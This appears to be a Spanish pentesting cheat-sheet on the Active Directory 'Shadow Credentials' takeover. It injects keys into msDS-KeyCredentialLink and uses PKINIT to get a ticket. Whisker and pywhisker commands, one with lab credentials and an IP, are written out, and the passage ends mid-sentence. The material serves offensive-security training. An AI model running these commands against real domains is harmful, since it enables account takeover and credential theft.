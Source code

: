 # Info

- Tecnica de account takeover.
- Consiste en inyectar claves propias en el atributo msDS-KeyCredentialLink de un usuario/computadora
- Permite obtener un TGT mediante PKINIT.

### Requisitos

- DC > 2016
- Infraestructura PKI
- permisos de: GenericAll, GenericWrite o WriteProperty sobre msDS-KeyCredentialLink.

###### En bloodhound el permiso para escribir el msDS-KeyCredentialLink figura como "AddKeyCredentialLink"

### msDS-KeyCredentialLink

Este atributo contiene credenciales de clave, que son objetos serializados que incluyen información como la fecha de creación, el nombre completo del propietario, un GUID que representa el ID del dispositivo y, por supuesto, la clave pública. Dado que una cuenta puede tener varios dispositivos vinculados, msDS-KeyCredentialLinkes un atributo multivalor.


# Abuso

## Desde windows

### Wihisker

    .\\Whisker.exe add /target:<user>

Luego usamos el output de rubeus que nos da el script para obetener un ticket y hacer un ptt (lo más performante si hay kerberos) o el NTML hash para hacer PTH.



## Desde linux

### PyWhisker
#### Repo
    git clone -q https://github.com/ShutdownRepo/pywhisker

### Explotación

    python  pywhisker.py -d lab.local -u jeffry -p Music001 --target gabriel --action add --dc-ip 10.129.234.190

Esto nos creará

